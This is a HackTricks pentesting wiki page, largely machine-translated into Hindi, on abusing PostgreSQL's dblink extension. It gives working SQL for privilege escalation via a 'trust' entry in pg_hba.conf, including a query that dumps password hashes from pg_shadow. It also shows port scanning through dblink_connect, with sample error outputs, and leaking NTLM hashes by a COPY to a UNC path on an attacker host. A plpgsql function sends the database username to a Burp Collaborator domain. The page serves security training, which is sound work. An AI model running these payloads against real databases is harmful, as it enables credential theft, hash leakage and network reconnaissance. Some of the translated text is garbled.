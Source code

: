 # Network - Privesc, Port Scanner and NTLM chanllenge response disclosure

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**Find** [**more information about these attacks in the original paper**](http://www.leidecker.info/pgshell/Having_Fun_With_PostgreSQL.txt).

चूंकि **PostgreSQL 9.1** से, अतिरिक्त मॉड्यूल की स्थापना सरल है। [पंजीकृत एक्सटेंशन जैसे `dblink`](https://www.postgresql.org/docs/current/contrib.html) को [`CREATE EXTENSION`](https://www.postgresql.org/docs/current/sql-createextension.html) के साथ स्थापित किया जा सकता है:
```sql
CREATE EXTENSION dblink;
```
Once you have dblink loaded you could be able to perform some interesting tricks:

### Privilege Escalation

फाइल `pg_hba.conf` गलत तरीके से कॉन्फ़िगर की जा सकती है **कनेक्शनों की अनुमति देते हुए** **localhost से किसी भी उपयोगकर्ता के रूप में** बिना पासवर्ड जाने। यह फाइल आमतौर पर `/etc/postgresql/12/main/pg_hba.conf` में पाई जा सकती है और एक गलत कॉन्फ़िगरेशन इस तरह दिखती है:
```
local    all    all    trust
```
_ध्यान दें कि यह कॉन्फ़िगरेशन आमतौर पर तब उपयोग किया जाता है जब व्यवस्थापक पासवर्ड भूल जाता है, इसलिए कभी-कभी आप इसे पा सकते हैं।_\
&#xNAN;_&#x4E;ोटे करें कि फ़ाइल pg\_hba.conf केवल postgres उपयोगकर्ता और समूह द्वारा पढ़ी जा सकती है और केवल postgres उपयोगकर्ता द्वारा लिखी जा सकती है।_

यह मामला **उपयोगी है यदि** आपके पास **शेल** पहले से ही पीड़ित के अंदर है क्योंकि यह आपको postgresql डेटाबेस से कनेक्ट करने की अनुमति देगा।

एक और संभावित गलत कॉन्फ़िगरेशन इस तरह का कुछ है:
```
host    all     all     127.0.0.1/32    trust
```
क्योंकि यह स्थानीय होस्ट से किसी भी उपयोगकर्ता के रूप में डेटाबेस से कनेक्ट करने की अनुमति देगा।\
इस मामले में और यदि **`dblink`** फ़ंक्शन **काम कर रहा है**, तो आप पहले से स्थापित कनेक्शन के माध्यम से डेटाबेस से कनेक्ट करके **अधिकार बढ़ा** सकते हैं और उन डेटा तक पहुँच प्राप्त कर सकते हैं जिन्हें पहुँच नहीं होनी चाहिए:
```sql
SELECT * FROM dblink('host=127.0.0.1
user=postgres
dbname=postgres',
'SELECT datname FROM pg_database')
RETURNS (result TEXT);

SELECT * FROM dblink('host=127.0.0.1
user=postgres
dbname=postgres',
'select usename, passwd from pg_shadow')
RETURNS (result1 TEXT, result2 TEXT);
```
### Port Scanning

`dblink_connect` का दुरुपयोग करते हुए आप **खुले पोर्ट्स** की भी खोज कर सकते हैं। यदि वह **फंक्शन काम नहीं करता है तो आपको `dblink_connect_u()` का उपयोग करने की कोशिश करनी चाहिए क्योंकि दस्तावेज़ में कहा गया है कि `dblink_connect_u()` `dblink_connect()` के समान है, सिवाय इसके कि यह गैर-सुपरयूजर्स को किसी भी प्रमाणीकरण विधि का उपयोग करके कनेक्ट करने की अनुमति देगा।
```sql
SELECT * FROM dblink_connect('host=216.58.212.238
port=443
user=name
password=secret
dbname=abc
connect_timeout=10');
//Different response
// Port closed
RROR:  could not establish connection
DETAIL:  could not connect to server: Connection refused
Is the server running on host "127.0.0.1" and accepting
TCP/IP connections on port 4444?

// Port Filtered/Timeout
ERROR:  could not establish connection
DETAIL:  timeout expired

// Accessing HTTP server
ERROR:  could not establish connection
DETAIL:  timeout expired

// Accessing HTTPS server
ERROR:  could not establish connection
DETAIL:  received invalid response to SSL negotiation:
```
ध्यान दें कि **इससे पहले** कि आप `dblink_connect` या `dblink_connect_u` का उपयोग कर सकें, आपको निम्नलिखित निष्पादित करने की आवश्यकता हो सकती है:
```
CREATE extension dblink;
```
### UNC पथ - NTLM हैश लीक
```sql
-- can be used to leak hashes to Responder/equivalent
CREATE TABLE test();
COPY test FROM E'\\\\attacker-machine\\footestbar.txt';
```

```sql
-- to extract the value of user and send it to Burp Collaborator
CREATE TABLE test(retval text);
CREATE OR REPLACE FUNCTION testfunc() RETURNS VOID AS $$
DECLARE sqlstring TEXT;
DECLARE userval TEXT;
BEGIN
SELECT INTO userval (SELECT user);
sqlstring := E'COPY test(retval) FROM E\'\\\\\\\\'||userval||E'.xxxx.burpcollaborator.net\\\\test.txt\'';
EXECUTE sqlstring;
END;
$$ LANGUAGE plpgsql SECURITY DEFINER;
SELECT testfunc();
```
{% hint style="success" %}
सीखें और AWS हैकिंग का अभ्यास करें:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
सीखें और GCP हैकिंग का अभ्यास करें: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **हमें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)** पर फॉलो करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PRs सबमिट करें।

</details>
{% endhint %}
